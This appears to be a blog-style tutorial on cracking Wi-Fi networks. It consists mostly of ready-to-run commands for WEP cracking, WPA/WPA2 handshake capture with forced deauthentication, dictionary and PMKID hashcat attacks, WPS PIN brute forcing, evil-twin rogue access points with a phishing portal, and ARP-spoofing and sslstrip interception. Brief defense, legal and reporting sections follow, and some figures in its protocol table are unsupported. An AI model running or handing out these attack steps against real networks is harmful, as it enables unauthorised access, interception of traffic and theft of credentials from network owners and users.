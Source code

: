 ```yaml
---
title: 'WiFi Cracking'
description: 'How to  broke into wifi network and some usefull tips'
pubDate: 'June 12 2025'
heroImage: '../../assets/wifi.png'
---
```


## **1. Understanding Wi-Fi Security Protocols**
### **Protocol Evolution & Vulnerabilities**
| Protocol | Year | Encryption | Vulnerabilities          | Crackability     |
| -------- | ---- | ---------- | ------------------------ | ---------------- |
| WEP      | 1997 | RC4        | IV Collisions, Weak Keys | 100% (Minutes)   |
| WPA      | 2003 | TKIP/RC4   | WPA-TKIP Attacks         | 95% (Hours)      |
| WPA2     | 2004 | CCMP/AES   | KRACK, PMKID             | 70% (Dictionary) |
| WPA3     | 2018 | GCMP/SAE   | Dragonblood              | 30% (Advanced)   |

**Key Insight:** Always prioritize WPA3/WPA2-Enterprise over personal PSK when possible.

## **2. Essential Tools Setup**
### **Hardware Requirements**
- **Recommended Adapters**:
	- Alfa AWUS036ACH (802.11ac)
- **Antennas**: 
	- Alfa ARS-N19 (Indoor/All-Around)
	- Alfa APA-M25 (Outdoor/Targeted)
- USB 3.0 Extension + Mount

### **Arch Preparation**
```bash
sudo pacman -Sy aircrack-ng hashcat hcxdumptool bully reaver
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
```

## 3. Identify Target
### Using `airodump-ng`
```bash
sudo airodump-ng wlan0mon
```
- Look under the **"Prot"** or **"ENC"** column.
- It shows things like:
    - `WPA2` – encryption
    - `CCMP` – cipher
    - But for protocol version: check **channel width and speed** too.
- Combine with the **"HT"** / **"VHT"** / **"HE"** flags:
    - `HT` → **802.11n**
    - `VHT` → **802.11ac**
    - `HE` → **802.11ax (Wi-Fi 6)**

### Using `iw dev` and `iwlist`
```bash
iw dev wlan0 scan | grep -A 20 'SSID: TargetWiFi'
```
Look for:
- `HT capabilities:` → 802.11n
- `VHT capabilities:` → 802.11ac
- `HE capabilities:` → 802.11ax

## **4. Attack Methodology**

### **A. WEP Cracking (Obsolete but Found in Legacy Systems)**
```bash
# Step 1: Put interface in monitor mode
sudo airmon-ng start wlan0

# Step 2: Capture IVs (Packet Injection Recommended)
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Step 3: Crack with aircrack
aircrack-ng -b 00:11:22:33:44:55 capture-01.cap
```
**Time Estimate**: 2-15 minutes with active traffic

### **B. WPA/WPA2 PSK Attacks**

#### **1. Handshake Capture**
```bash
# Capture beacon frames
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Deauth to force handshake
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c ClientMAC wlan0mon

# Verify handshake
aircrack-ng -J verify handshake-01.cap
```

#### **2. Dictionary Attack**
```bash
# Using aircrack
aircrack-ng -w rockyou.txt handshake-01.cap

# Using hashcat (faster)
hcxpcapngtool -o hash.hc22000 handshake-01.cap
hashcat -m 22000 hash.hc22000 rockyou.txt
```

#### **3. PMKID Attack (No Clients Needed)**
```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool -z pmkid.hash capture.pcapng
hashcat -m 16800 pmkid.hash -a 3 ?d?d?d?d?d?d?d?d
```

### **C. WPA3 Attack Surface**
**Dragonblood Vulnerabilities**:
- SAE side-channel attacks
- Downgrade to WPA2

```bash
sudo dragonforce -i wlan0mon -b 00:11:22:33:44:55 -w wordlist.txt
```

## **5. Advanced Techniques**

### **A. Evil Twin Attacks**
```bash
# Create rogue AP
sudo airbase-ng -a 00:11:22:33:44:55 --essid "FreeWiFi" -c 6 wlan0mon

# Phishing portal integration
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### **B. WPS PIN Attacks**
```bash
# Using reaver
reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -K 1

# Using bully (faster)
bully -b 00:11:22:33:44:55 wlan0mon -p 12345670
```

## **6. Defense Strategies**

### **Enterprise Best Practices**
```bash
# RADIUS Configuration Example (FreeRADIUS)
eap {
    default_eap_type = peap
    timer_expire = 60
    ignore_unknown_eap_types = no
}
```

### **Personal Network Hardening**
```bash
# Hostapd Config Snippet
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=ComplexP@ssw0rd!
```

## **7. Legal Considerations**

**Always obtain written permission** before testing any network. Recommended legal clause:
```
This assessment is authorized by {Organization} from {StartDate} to {EndDate}.
Testing limited to SSIDs: {List_of_SSIDs}.
All activities logged for audit purposes.
```

## **8. Post-Exploitation**

### **Network Mapping**
```bash
nmap -Pn -sV -O 192.168.1.0/24
```

### **MITM Techniques**
```bash
sudo arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
sudo sslstrip -l 8080
```

## **9. Reporting Template**

**Findings Summary**:
```
1. WPA2-PSK Vulnerability (Critical)
   - Captured handshake in 2 minutes
   - Cracked password in 4 hours (8-char lowercase)

2. WPS Enabled (High)
   - PIN brute-forced in 6 hours

3. Rogue AP Detection (Medium)
   - No enterprise authentication observed
```

**Remediation Plan**:
1. Migrate to WPA3-Enterprise with 802.1X
2. Disable WPS immediately
3. Implement wireless intrusion detection

